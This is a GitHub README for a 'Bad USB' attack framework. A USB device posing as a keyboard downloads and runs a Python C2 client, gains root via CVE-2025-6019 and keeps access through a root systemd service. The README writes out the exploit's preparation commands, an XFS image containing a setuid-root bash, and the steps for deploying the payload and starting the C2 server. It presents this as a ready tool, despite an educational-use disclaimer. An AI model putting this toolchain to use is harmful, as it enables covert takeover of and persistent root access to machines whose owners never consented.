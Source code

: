 # Annual Project: Bad USB Attack Framework

This project details the development of a "Bad USB" solution designed to automate the initial stages of a penetration test, specifically focusing on payload delivery, command and control (C2) establishment, privilege escalation, and persistence.

Disclaimer: This project is developed for educational purposes only, to understand and demonstrate cybersecurity attack vectors. It should never be used on systems without explicit, written permission from the owner. Unauthorized use of this software is illegal and unethical. The developer assumes no responsibility for any misuse or damage caused by this project.

# 🚀 Features
### Bad USB Payload Injection: 
Utilizes a Bad USB device to automatically input a wget command, retrieving the C2 client onto the target system.

### Automated C2 Client Execution: 
Immediately launches the downloaded C2 client upon successful transfer.

### Privilege Escalation: 
Leverages the **CVE-2025-6019** CVE to achieve root privileges on the compromised system.

### Persistent C2 Connection: 
Establishes persistence by creating a systemd service, ensuring the C2 client restarts with the system and runs as root.

### Server-Side Logging: 
The C2 server logs all relevant attack data and interactions into /etc/attack.txt on the server machine.

# 🛠️ How it Works
The workflow of this attack framework is orchestrated in several stages:

- ### Initial Access (Bad USB):

A Bad USB device, when plugged into a target machine, emulates a keyboard.

It executes a pre-programmed payload (a wget command) to download the C2 client from the attacker's server.

Once downloaded, the Bad USB script automatically executes the client.

- ### Command & Control (C2) Client:

The client establishes a connection back to the attacker's C2 server.

It is designed to be lightweight and facilitate remote command execution.

- ###  Privilege Escalation:

Upon connecting to the server, the C2 client (or a component initiated by it) exploits the **CVE-2025-6019** CVE to elevate its privileges to root.

The CVE is explained [here](https://ubuntu.com/security/CVE-2025-6019)

- ###  Persistence:

After gaining root access, the C2 client writes a systemd service file to the target system.

This service ensures that the C2 client automatically starts with root privileges every time the system boots, maintaining persistent access for the attacker.

- ###  Server-Side Monitoring & Logging:

The C2 server acts as the central hub, receiving connections and commands from compromised clients.

All interactions, executed commands, and system information gathered are meticulously logged into a file located at /etc/attack.txt on the server. This provides a comprehensive record of the attack.

## 📂 Project Structure
```
├── Base-C2
│   ├── client.py
│   ├── readme
│   └── server.py
├── C2-attack.sh
└── contact.py
```

 ## ⚙️ Setup and Installation
To leverage the BadUSB into a root C2, we need a XFS image with a bash inside.

All of this commands needs to be done in root, in the root of the repository, and it should be done by the same architecture (e.g. x64) as the target

    dd if=/dev/zero of=./xfs.image bs=1M count=300

    mkfs.xfs ./xfs.image

    mkdir ./xfs.mount

    mount -t xfs ./xfs.image ./xfs.mount

    cp /bin/bash ./xfs.mount

    chmod 04555 ./xfs.mount/bash

    umount ./xfs.mount

#### 1. Bad USB Device Preparation
Obtain a programmable Bad USB device (e.g., Rubber Ducky, Digispark, Raspberry Pico).

Make sure all the file for a BadUSB are there

#### 2. C2 Server Setup
Clone this repository to your server:

Right now, The server needs to be in the same network as the target. 

⚠️ **I will not explain here how to make the client accessible when the server is not in the same network.** ⚠️

Verify the server has write permissions to /etc/attack.txt

## 🚀 Usage

    sh C2-attack.sh MOUNT_POINT

Start the C2 Server:

# Example of an attack on a linux machine

- Plug in your BadUSB (in safe mode) and mount it (e.g. ***/mnt***)
```
sudo mount /dev/sdaX /mnt
```

- Launch the script with your mount directory in argument
```
sh C2-attack.sh /mnt
```

- It will tell you when you can remove the BadUSB (it automatically unmount it)
```
BadUSB payload written to /mnt/payload.dd. Please safely remove the USB drive
```

- It will then start the python server that will transfer the client_r.py. From now on, you need to plug in the BadUSB to your target, while logged in.

- The script will start, opening a terminal and executing the payload. It will then connect to the python server, download the client_r.py and execute it.

If you followed every steps, you should start to see a new connexion on the CLI of the C2 server.

**Have fun !**

## 🤝 Contributing
Contributions are welcome! If you have suggestions for improvements, new features, or bug fixes, please open an issue or submit a pull request.

## 📄 License
This project is licensed under the MIT License.
